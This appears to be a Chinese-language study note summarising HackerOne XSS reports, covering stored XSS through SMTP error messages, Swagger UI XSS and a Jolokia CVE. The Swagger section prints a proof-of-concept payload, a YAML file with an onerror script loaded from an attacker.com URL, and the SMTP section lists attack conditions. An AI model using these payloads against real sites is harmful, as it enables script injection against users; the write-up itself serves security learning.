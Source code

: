 [U.S. Dept Of Defense | Report #2853410 - XSS found in https://www.████████.mil | HackerOne](https://hackerone.com/reports/2853410)类似

### 2. SMTP 错误日志注入

[XVIDEOS | Report #2956266 - Stored XSS via SMTP Error Message | HackerOne](https://hackerone.com/reports/2956266)

一个存储型XSS，在账户邮箱登录/注册页面，支持第三方邮箱/其他自定义邮箱服务。

问题出在：如果邮箱输入错误，邮箱服务器会发送错误信息给XVIDEOS，并且他会存储在数据库中，然后直接html显示到页面中，不经过安全处理。

**攻击条件：**

1. 自己搭建一个邮箱服务，需要注册域名
2. 用户恰巧使用你这个邮箱服务，并且输出错误导致发送错误日志
3. 自定义邮箱服务的错误日志：里面存入payload

**提高几率：**

1. 如果可以借用CSRF，那么就可以不要考虑第二点，因为可以指定了

**类似案例：**

1. 和form表单处的数据库操作错误回显到页面一样，都是借用错误日志显示到页面的注入

### 3. Swagger UI XSS

[MTN Group | Report #2321874 - DOM Based Reflected Cross Site Scripting | HackerOne](https://hackerone.com/reports/2321874)

[Mars | Report #2684274 - RXSS on ████ via configUrl parameter | HackerOne](https://hackerone.com/reports/2684274)，也是swagger的xss

#### **复现：**

**步骤 1**：创建一个恶意 Swagger 定义文件（`evil.yaml`）：

```
openapi: 3.0.0
info:
  title: "<img src=x onerror=alert(document.domain)>"
  version: 1.0.0
```

**步骤 2**：在 Swagger UI 中加载该文件（旧版可能直接执行脚本）：

```
https://swagger.example.com/?url=https://attacker.com/evil.yaml
```

### 4. Jolokia 1.3.7 CVE

[CVE-2018-1000129 \] RXSS At `https://███████` via the URI | HackerOne](https://hackerone.com/reports/2778412)

这个人在美国国防部的某个网站发现存在 **CVE-2018-1000129** 是一个与跨站脚本（XSS）漏洞相关的安全问题，影响了 Jolokia 代理版本 1.3.7。Jolokia 是一个开源的 Java 库，在版本 1.3.7 中，其 HTTP Servlet（服务端组件）存在安全漏洞。
